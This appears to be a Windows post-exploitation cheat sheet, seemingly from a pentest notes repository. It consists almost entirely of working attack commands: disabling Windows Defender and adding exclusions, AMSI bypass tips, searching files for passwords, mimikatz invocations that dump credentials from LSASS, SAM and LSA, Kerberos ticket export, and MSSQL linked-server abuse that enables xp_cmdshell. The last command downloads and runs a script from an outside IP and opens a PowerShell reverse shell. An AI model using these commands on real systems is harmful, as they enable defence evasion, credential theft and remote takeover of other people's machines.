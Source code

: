 ## Disable Antivirus  
### With Admin privileges  
Add a folder to the list of paths for which Windows Defender scheduled and real-time scanning is disabled:  
`PS C:\> Add-MpPreference –ExclusionPath “C:\Temp\User"`
  
Disable real-time protection:  
`PS C:\> Set-MpPreference –DisableRealtimeMonitoring $True`  

Some AMSI (Antimalware scan interface) bypass techniques:  
- `PS C:\> powershell.exe –version 2` (Downgrade to PowerShell 2.0 (.NET Framework 3.5 is required)  
- Crash the AMSI process by running payloads available « amsi.fail » (https://amsi.fail).  
  
## Search passwords  
### Enumerate local secrets by searching for keywords in files  
```
findstr /s /i /m "password" "C:\path\to\search\directory\*.*"
```
/s (findstr) or -Recurse (Get-ChildItem) option ensures that the search is performed in all subdirectories.  
/i (findstr) option or -CaseSensitive (Select-String) option performs a case-insensitive search.  
/m (findstr) option is used to print only the filenames with the matching content.  
`Get-ChildItem -Path C:\* -Include *.xml,*.ini,*.txt,*.config,*.ps1,*.bat, *.properties,*.cfg,*.vbs,*.wsf,*.cmd -ErrorAction SilentlyContinue -Recurse | Select-String "adm","<domain>","pass","pwd","mdp","cred","config","username","SecureString" -List | Select-Object -ExpandProperty Path`  
  
    
### With Admin privileges - Extract passwords  
`mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "lsadump::cache" "sekurlsa::ekeys" "exit"`  
  
**Explanation :**  
`privilege::debug` & `token::elevate` Elevate Privileges to extract the credentials  
`sekurlsa::logonpasswords` Extracts creds from lsass (memory)  
`lsadump::lsa /inject` Extracts from lsass (service)  
`lsadump::sam` Extracts creds from SAM  

## Extract Kerberos tickets from memory  
### With Admin privileges 
   
`mimikatz.exe "privilege::debug" "token::elevate" "kerberos::list /export" "exit"`    


## MSSQL Privesc   
### Check if the local MSSQL DB is linked to another instance:  
`Get-SqlServerLinkCrawl -Verbose`    
    
**Manual trusted link queery** (From https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/abusing-ad-mssql)   
  
`Get-SQLQuery -Instance "DBWEB,1433" -Query "select * from openquery(""m4sqlz.m4c.loc"", 'select * from information_schema.tables')"`  
  
**Enable xp_cmdshell and check it**  
`Get-SQLQuery -Instance "DBWEB,1433" -Query 'SELECT * FROM OPENQUERY("m4sqlz.m4c.loc", ''SELECT * FROM sys.configurations WHERE name = ''''xp_cmdshell'''''');'`  
  
`Get-SQLQuery -Instance "DBWEB,1433" -Query 'EXEC(''sp_configure ''''show advanced options'''', 1; reconfigure;'') AT [m4sqlz.m4c.loc]'`  
  
`Get-SQLQuery -Instance "DBWEB,1433" -Query 'EXEC(''sp_configure ''''xp_cmdshell'''', 1; reconfigure;'') AT [m4sqlz.m4c.loc]'`    
  
  
If you see the results of @@selectname, it worked  
Then :    
`osql -E -S "DBWEB" -Q "EXECUTE('xp_cmdshell whoami') AT [m4sqlz.m4c.loc];"` 
  
OR   
  
`Get-SQLServerLinkCrawl -Instance CYWEBDW -Query "EXEC master..xp_cmdshell 'powershell.exe iex (iwr http://10.10.16.20:8080/Invoke-PowerShellTcp.ps1 -UseBasicParsing);Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.20 -Port 443'"`    

    
  
